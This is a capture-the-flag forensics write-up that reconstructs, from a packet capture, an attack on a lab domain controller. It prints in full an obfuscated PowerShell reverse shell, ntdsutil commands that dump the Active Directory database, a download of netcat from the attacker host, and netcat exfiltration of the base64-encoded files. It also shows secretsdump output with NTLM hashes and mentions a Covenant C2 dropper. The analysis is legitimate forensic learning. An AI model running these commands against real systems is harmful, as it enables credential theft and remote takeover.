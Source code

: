 # HTB Uni CTF qualifications 2021 - Forensics - Keep the steam activated

This was the third, hardest rated forensics challenge in the CTF. 

We have a packet capture. Looking at File->Export Objects for HTTP packets, we can see a reverse shell script being dropped on the victim's machine

```powershell
sv ('8mxc'+'p')  ([tyPe]("{1}{0}{2}" -f 't.encOdi','tex','nG') ) ;${ClI`E`Nt} = &("{1}{0}{2}"-f 'je','New-Ob','ct') ("{5}{0}{8}{1}{2}{3}{4}{6}{7}" -f'y','m','.Net.So','ckets.T','C','S','PC','lient','ste')(("{0}{1}{2}" -f '192.168','.1','.9'),4443);${sT`Re`Am} = ${C`L`IeNT}.("{0}{2}{1}"-f'Ge','tream','tS').Invoke();[byte[]]${By`T`es} = 0..65535|.('%'){0};while((${i} = ${str`EaM}.("{0}{1}" -f'Re','ad').Invoke(${bY`Tes}, 0, ${by`TEs}."Len`G`TH")) -ne 0){;${d`AtA} = (.("{2}{1}{0}"-f '-Object','w','Ne') -TypeName ("{0}{3}{5}{1}{4}{2}" -f'Syst','ASCI','g','em.Text','IEncodin','.'))."gETSt`R`i`Ng"(${by`TES},0, ${i});${SeN`DBacK} = (.("{0}{1}"-f 'ie','x') ${Da`Ta} 2>&1 | &("{0}{2}{1}"-f'Out-','ing','Str') );${SENdb`AC`k2} = ${s`eNDb`ACK} + "PS " + (.("{1}{0}"-f'd','pw'))."P`ATH" + "> ";${sE`NDBYtE} = (  (  vaRIaBle ('8MXC'+'P')  -ValUe  )::"ASC`Ii").("{2}{1}{0}"-f'es','tByt','Ge').Invoke(${SENdB`AC`K2});${sT`REAM}.("{0}{1}" -f'Writ','e').Invoke(${S`e`NdbY`Te},0,${SE`NDbyTe}."lENG`TH");${S`TR`eAM}.("{1}{0}" -f 'h','Flus').Invoke()};${clIE`Nt}.("{0}{1}"-f 'Cl','ose').Invoke()
```

We can also see `n.exe` being dropped which turns out to likely be netcat.

We can see SMB2 protocol traffic, with the attacked trying to presumably authenticate as various different users on the box. 

We observe a very interesting TCP stream after the attacker has successfully authenticated as `corp\asmith`:

```
PS C:\> whoami;hostname
corp\asmith
corp-dc
PS C:\> ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
C:\Windows\system32\ntdsutil.exe: ac i ntds
Active instance set to "ntds".
C:\Windows\system32\ntdsutil.exe: ifm
ifm: create full c:\temp
Creating snapshot...
Snapshot set {7f610e6f-46fe-4e74-9cc9-baa92f19f67a} generated successfully.
Snapshot {710fb56f-b795-44ef-b88a-d25aa3026d36} mounted as C:\$SNAP_202111051500_VOLUMEC$\
Snapshot {710fb56f-b795-44ef-b88a-d25aa3026d36} is already mounted.
Initiating DEFRAGMENTATION mode...
     Source Database: C:\$SNAP_202111051500_VOLUMEC$\Windows\NTDS\ntds.dit
     Target Database: c:\temp\Active Directory\ntds.dit

                  Defragmentation  Status (omplete)

          0    10   20   30   40   50   60   70   80   90  100
          |----|----|----|----|----|----|----|----|----|----|
          ...................................................

Copying registry files...
Copying c:\temp\registry\SYSTEM
Copying c:\temp\registry\SECURITY
Snapshot {710fb56f-b795-44ef-b88a-d25aa3026d36} unmounted.
IFM media created successfully in c:\temp
ifm: q
C:\Windows\system32\ntdsutil.exe: q
PS C:\> iex (New-Object System.Net.WebClient).DownloadFile("http://192.168.1.9/n.exe","C:\Users\Public\Music\n.exe")
PS C:\> certutil -encode "C:\temp\Active Directory\ntds.dit" "C:\temp\ntds.b64"
Input Length = 33554432
Output Length = 46137402
CertUtil: -encode command completed successfully.
PS C:\> certutil -encode "C:\temp\REGISTRY\SYSTEM" "C:\temp\system.b64"
Input Length = 15204352
Output Length = 20906044
CertUtil: -encode command completed successfully.
PS C:\> cat C:\temp\ntds.b64 | C:\Users\Public\Music\n.exe 192.168.1.9 8080
PS C:\> cat C:\temp\system.b64 | C:\Users\Public\Music\n.exe 192.168.1.9 8080
PS C:\> 
```

We can see that the attacker is preparing dumps of the `ntds.dit` file and the system hive. These can be used together to extract password hashes from the system remotely. The base64-encoded files are then exfiltrated using netcat.

What follows are 2 TCP streams containing the files.

```
-----BEGIN CERTIFICATE-----
46D3Pu/Nq4kgBgAAAAAAAJInAQAAAAAAgkA/WRUAFgULeQcMAAAAAAAAAAAAAAAA
AAAAAAMAAAAAAAAAAAAAABcAFgULeVUGFQAWBQt5gwwAAAAAAAAAABcAFgULeVUG
AAAAAAAAAAACAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[...]
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=
-----END CERTIFICATE-----
```

```
-----BEGIN CERTIFICATE-----
cmVnZj4DAAA+AwAAAAAAAAAAAAABAAAABQAAAAAAAAABAAAAIAAAAACA5wABAAAA
UwBZAFMAVABFAE0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[...]
AAAAAAAAAAAAAAAAAAAAAA==
-----END CERTIFICATE-----
```

We can base64 decode these to obtain the files. After these streams, we observe another interesting TCP stream. Starting with a POST request to /wsman with a User-Agent: Ruby WinRM Client (likely Evil-WinRM), this is a stream of encrypted WinRM communications. 

![image-20211121192214032](/home/atte/Documents/ctf/htb/image-20211121192214032.png)

These can be decrypted using [this Python script](https://gist.github.com/jborean93/d6ff5e87f8a9f5cb215cd49826523045) if we know the NTLM hash of the user who was using WinRM. Since we have the `ntds.dit` and the system hive, we can find the password hashes! Using Impacket's secretsdump.py, we do

```bash
[19:26] atte@x1:examples (master %) $ python3 secretsdump.py -ntds ~/Documents/ctf/htb/ntds.dit -system ~/Documents/ctf/htb/systemhive -hashes lmhash:nthash LOCAL -outputfile extracted
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x406124541b22fb571fb552e27e956557
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9da98598be012bc4a476100a50a63409
[*] Reading and decrypting hashes from /home/atte/Documents/ctf/htb/ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8bb1f8635e5708eb95aedf142054fc95:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CORP-DC$:1000:aad3b435b51404eeaad3b435b51404ee:94d5e7460c75a0b30d85744f633a0e66:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9555398600e2b2edf220d06a7c564e6f:::
CORP.local\fcastle:1103:aad3b435b51404eeaad3b435b51404ee:37fbc1731f66ad4e524160a732410f9d:::
CORP.local\jdoe:1104:aad3b435b51404eeaad3b435b51404ee:37fbc1731f66ad4e524160a732410f9d:::
WS01$:1105:aad3b435b51404eeaad3b435b51404ee:cd9c49cc4a1a535d27b64ab23d58f3e6:::
WS02$:1106:aad3b435b51404eeaad3b435b51404ee:98c3974cacc09721a351361504de4de5:::
CORP.local\asmith:1109:aad3b435b51404eeaad3b435b51404ee:acbfc03df96e93cf7294a01a6abbda33:::
[*] Kerberos keys from /home/atte/Documents/ctf/htb/ntds.dit 
[ REDACTED ]
[*] Cleaning up... 
```

Well, we have hashes of the victim's system. We can grab Administrator's NTLM hash and do

```bash
[19:26] atte@x1:examples (master %) $ python3 winrm_decode.py -n 8bb1f8635e5708eb95aedf142054fc95 ~/Documents/ctf/htb/capture.pcap > decrypted_winrm
```

This gives us an XML file like the one in the link for winrm_decode.py. This contains unencrypted data about the WinRM communications that occurred. These are base64 encoded inside XML tags. After playing around with the file for a while, we find inside one of the Invoke-Expression command's arguments:

```
<Obj RefId="13">
                      <MS>
                        <Nil N="N" />
                        <S N="V">echo "HTB{n0th1ng_1s_tru3_3v3ryth1ng_1s_d3crypt3d}"
if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }</S>
                      </MS>
```

and we have the flag: `HTB{n0th1ng_1s_tru3_3v3ryth1ng_1s_d3crypt3d}`. 

Let's not stop our analysis quite yet though. After the WinRM session, a file `drop.ps1` is dropped onto the victim's computer. After running it through VirusTotal and trying to run it inside a Virtual Machine, it looks to be a script that is used to drop the Covenant Command and Control tool onto the victims machine. We can also see the encrypted communications between the Covenant Grunt and whatever it is talking to in the pcap file, although decrypting those would be more difficult (if possible). The covenant communications look like this, after being decoded from base64 inside seemingly innocent HTTP requests:

```
{"GUID":"1daec7cae6","Type":0,"Meta":"","IV":"r4vbzKDCCv90dLF/JCnLbA==","EncryptedMessage":"PTPQe5mkdWT1eXNKNkrT7Lyfh6C/lubWhsNbjoRQU+/bx8TaJGB9BRqHn9aoeQLOTuczQ/JxUTHDTzRSRBgRAHLgsJUNJpp4KYPGwO7i97slWPZ3Iu868W40lF7jYYegDj1l5XPok37j3wEI2qRkX9f6NMSC3P+WC4z4OC5q+HQSwNi6e5zF2SYl8gGq49cTjaiWFfXteTFl+xl+S5JTa9fnubD6edNdFXU/ex/7SjyZXNtURu+E0DDsYt1KntPojmXDi9GrJJ+PoTBbnCxaq6GUu3nBT4EUaWviWtZBqHvT4+9R88nmFn9ltZphoZ5N3yD7mlqEOHMzpow4MEOvURLr4JFGywpqcDfn/mNjz20=","HMAC":"r/ZtDpVHVBb0ixbNZK3beRjt/huhFaL/COqzZge3VFk="}
```

We can thus summarize the events as follows:

1. The attacker authenticates to the machine as `CORP\asmith`
2. The attacker exfiltrates the `ntds.dit` and SYSTEM registry hive
3. The flag is exfiltrated over WinRM/WSMAN
4. Covenant C2 is dropped on the box and encrypted communications are observed.

All in all, a very fun challenge and I learned a lot!

